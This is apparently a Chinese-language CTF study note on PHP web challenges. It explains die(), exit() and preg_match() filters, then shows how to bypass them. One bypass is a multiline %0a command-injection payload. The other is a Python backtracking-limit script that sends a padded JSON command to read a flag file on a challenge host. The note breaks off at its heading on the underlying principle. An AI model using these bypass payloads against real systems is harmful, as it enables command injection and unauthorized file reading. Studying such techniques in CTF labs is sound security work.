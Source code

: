 # web

## php在线网站

[PHP 在线工具 | 菜鸟工具 (jyshare.com)](https://www.jyshare.com/compile/1/)

## php函数

### die()和exit()

在PHP中，`die()`函数是`exit()`函数的别名，用于输出一条消息（如果提供）并终止当前脚本的执行。这个函数常被用于处理错误情况，当脚本遇到一个无法恢复的错误或者达到了不应继续执行的逻辑点时，可以使用`die()`来立即停止程序运行。

### preg_match()

此函数用来检查变量中是否包含指定模式,有以下两种常见用法:

`preg_match("/[\'\"\\\\\(\)\[\]\{\}\/]/", $ip, $match)`

两个`/`时正则表达式的定界符,如果包含特殊字符,则返回1

`preg_match("/.*f.*l.*a.*g.*/", $ip)`

- `/`：正则表达式的开始和结束定界符。
- `.*`：`.`匹配除换行符之外的任意单个字符，`*`表示前面的元素可以出现零次或多次。因此，`.*`连在一起就表示“任意数量的任意字符”。
- `f`、`l`、`a`、`g`：需要按顺序出现的字符。
- `.*`：在每个字符之间以及最后一个字符之后，再次使用，表示这些字符之间可以有任意数量的其他字符。

这段代码检查变量`$ip`是否包含由任意字符分割的字母序列'f','l','a','g'.



**绕过方法**:

1.`preg_match`只能匹配第一行，所以这里可以采用多行绕过。

使用get方式提交类似payload:

`{%0a"cmd":"ls /"%0a}`即可绕过对`/`的匹配

2.回溯

具体脚本:

```
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a" * (1000000) + '"}'

res = requests.post("http://5881937a-a9b5-4d44-84f2-844ed296aecd.node5.buuoj.cn:81/", data={"cmd": payload})
print(res.text)

```

原理:
